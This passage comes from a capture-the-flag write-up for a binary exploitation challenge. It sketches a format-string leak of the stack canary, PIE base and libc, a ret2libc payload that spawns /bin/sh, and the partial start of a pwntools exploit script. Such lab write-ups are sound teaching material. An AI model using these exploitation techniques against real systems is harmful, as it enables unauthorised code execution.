 
7. Great! Hence we just need to spam rocks request until our rocks stock is under 20.

### FLOW

```
1. Leak canary values (because there's stack protection).
2. Leak PIE --> calculate PIE BASE (because PIE Enabled, hence we need to calc the pie base in order to access gadgets).
3. Leak libc --> calculate LIBC BASE (because we want to do RET2LIBC).
```

EXPLOIT MOMENT:

```
RET2LIBC PAYLOAD
Padding + canary + junk + stack_align + rdi + /bin/sh + libc.sym.system
```

8. After leaked the libc address at the remote server (to make it easier to guess the libc version, I leaked the `__libc_start_main_ret`.

> POSSIBLE LIBC VERSION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/41d39f4c-5238-4a39-ae98-b822ca6498d4)


9. Anyway to grab the correct libc, (**SPOILER**) kinda lazy to leak `IO_STDIN`, `IO_STDOUT`, etc. So I just tried every one of them to get the shell.
10. I won't shows the trial and error to get the correct LIBC address, because I got the correct one by bruteforcing them, which one's get me the shell is the correct one.
11. Here's the script so far:

> 1/2 SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
continue
""".format(**locals())

exe = './what_does_the_f_say_patched'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'ERROR'
context.log_level = 'INFO'
# context.log_level = 'DEBUG'

# library = '/lib/x86_64-linux-gnu/libc.so.6'
library = './libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def pie_leak(offset):
    sh.sendline(b'1')
    sh.sendline(b'2')
    sh.sendline('%{}$p'.format(offset))
    sh.recvuntil(b'Kryptonite?\n')
    get = sh.recvline().strip()
```
